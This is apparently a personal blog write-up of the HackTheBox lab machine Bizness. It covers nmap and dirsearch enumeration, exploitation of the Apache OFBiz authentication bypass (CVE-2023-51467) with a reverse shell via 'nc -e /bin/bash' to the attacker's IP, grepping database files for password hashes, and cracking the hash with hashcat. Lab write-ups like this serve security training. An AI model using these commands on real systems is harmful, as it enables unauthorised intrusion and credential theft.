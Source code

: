```yaml
---
title: HTB Writeup - Bizness
date: 2024-01-11 14:28:47 +07:00
modified: 2024-01-11 14:28:47 +07:00
tags: [hackthebox, linux, boot2root, rce]
description: All the services are free, a source code this site placed on github repository and intergration with netlify service, another service that you can use is github page for hosting your own static site.
---
```


<img src="/assets/blog-images/htb-bizness/image0.png" alt="bizness">

Hello, this is my first post on this blog. On this first post I'm going to explain the walktrough of the hackthebox machine called Bizness.
First, we do the nmap scanning, to see what are the things that we can look for the foothold.

# Information Gathering
```bash
# Nmap 7.94SVN scan initiated Tue Jan  9 14:22:30 2024 as: nmap -p- -sC -sV -A --min-rate 5000 -o nmap.bizness 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.029s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
42235/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/9%OT=22%CT=1%CU=33356%PV=Y%DS=2%DC=T%G=Y%TM=659CF
OS:484%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=2%ISR=10A%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M5
OS:52ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   29.47 ms 10.10.14.1
2   29.62 ms 10.10.11.252

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  9 14:23:48 2024 -- 1 IP address (1 host up) scanned in 78.61 seconds
```

# Directory Enumaration
After looking at the ports, there's only one thing that we can check which is the web application. When I visit bizness.htb, it automatically direct to `https://bizness.htb/`. Without further do, I just do the fuzzing to see if there is a juicy information that we can use.

```bash
dirsearch -u https://bizness.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/corvuz/hackthebox/bizness/reports/https_bizness.htb/__24-01-09_15-42-52.txt

Target: https://bizness.htb/

[15:42:52] Starting: 
[15:43:04] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[15:43:05] 400 -  795B  - /a%5c.aspx                                        
[15:43:06] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[15:43:23] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[15:43:25] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[15:43:25] 404 -  780B  - /common/config/api.ini                            
[15:43:25] 404 -  779B  - /common/config/db.ini                             
[15:43:25] 404 -  762B  - /common/                                          
[15:43:26] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[15:43:27] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[15:43:27] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[15:43:27] 200 -   34KB - /control/                                         
[15:43:27] 200 -   34KB - /control
[15:43:28] 200 -   11KB - /control/login                                    
[15:43:29] 404 -  763B  - /default.html   
```
Using dirsearch I found a foothold in a form of login page in the directory */control/login* 

<img src="/assets/blog-images/htb-bizness/image1.png" alt="Login Page">

# Vulnerability Analysis
Doing some research on google to get to know about the version whether it's outdated or not.
<img src="/assets/blog-images/htb-bizness/image2.png" alt="sources">

found many resources that talked about the critical cve let's check the first one by [cybersecuritydiver](https://www.cybersecuritydive.com/news/apache-ofbiz-cve-exploitation/703788/)

<img src="/assets/blog-images/htb-bizness/image3.png" alt="cybersecuritydive.com">

We can see that service has outdated version which have vulnerability CVE-2023-51467 that could allowing an attacker to execute arbitrary code without authentication.

# Exploitation
Found this amazing poc that can make us easier to exploit the service. Clone the repository, and run as suggested. Here's the link for [Github](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

<img src="/assets/blog-images/htb-bizness/image4.png" alt="POC">

Now we able to get the reverse shell using this command:

`python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.59 1337'`

<img src="/assets/blog-images/htb-bizness/image5.png" alt="exploitation">

Good, we got the  user flag

<img src="/assets/blog-images/htb-bizness/image6.png" alt="Use Flag">

# Privilege Escalation
At first I was so confused to find the root and stuck. So I visit HTB forum to get some nudge and insight. Sorry, I'm noob here *sad

So, I able to get some information on this path `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` but when you get into that there's bunch of files, it will takes a long time if you check it one by one.

Therefore, I try to get this information, by using this grep command.

`grep -arin -o -E (\w+\W+){0,5}password(\W+\w+){0,5}' .`

<img src="/assets/blog-images/htb-bizness/image7.png" alt="hash">

This a bit of explanation about the purpose of the command:

    1. `grep`: This command is used for searching text patterns in files.
    
    2. `-a`: This option forces `grep` to treat binary files as text. It can be useful when searching through files that may contain binary data.
    
    3. `-r`: This option makes `grep` search recursively through directories, including subdirectories.
    
    4. `-i`: This option makes the search case-insensitive, meaning it will match "password," "Password," "PASSWORD," etc.
    
    5. `-n`: This option displays the line numbers along with the lines that match the pattern.
    
    6. `-o`: This option prints only the matched parts of a line, rather than the entire line.
    
    7. `-E`: This option enables extended regular expressions, allowing the use of parentheses `{}` for specifying repetition.
    
    8. `'(\w+\W+){0,5}password(\W+\w+){0,5}'`: This is the regular expression being searched for. Let's break it down:
    
        - `(\w+\W+){0,5}`: This part matches up to 5 occurrences of word characters (`\w`) followed by non-word characters (`\W`). This allows for any characters (including spaces, punctuation, etc.) between the beginning of the line and the word "password."
        - `password`**: This is the literal string "password" that the command is searching for.
        - `(\W+\w+){0,5}`: This part matches up to 5 occurrences of non-word characters followed by word characters. This allows for any characters between the word "password" and the end of the line.
    9. `.`: This specifies the current directory as the location to search.

    Big thanks to chatgpt for providing this brief explanation. lol

After we found the hash, we cannot crack it immediately, we need to decode it first using [cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'_'%7D,'/',false,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false)From_Base64('A-Za-z0-9%2B/%3D',false,false)To_Hex('None',0)&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ)

<img src="/assets/blog-images/htb-bizness/image8.png" alt="cyberchef">

Because the hash is in a form of SHA-1 and also it has salt we need to use 120 mode `sha1($salt.$pass)` on hashcat modules.

<img src="/assets/blog-images/htb-bizness/image9.png" alt="Hashcat Module">

This is important thing, append the salt “:d” to crack it with hashcat.

<img src="/assets/blog-images/htb-bizness/image10.png" alt="hashcat">

Using this command: 

`hashcat -a 0 -m 120 hash /home/corvuz/SecLists/Passwords/Leaked-Databases/rockyou.txt` 

Now we cracked the hash and found password.

<img src="/assets/blog-images/htb-bizness/image11.png" alt="Login Page">

now just su and use the password `monkeybizness`, we are rooted.

Thank you, for reading `:))`
 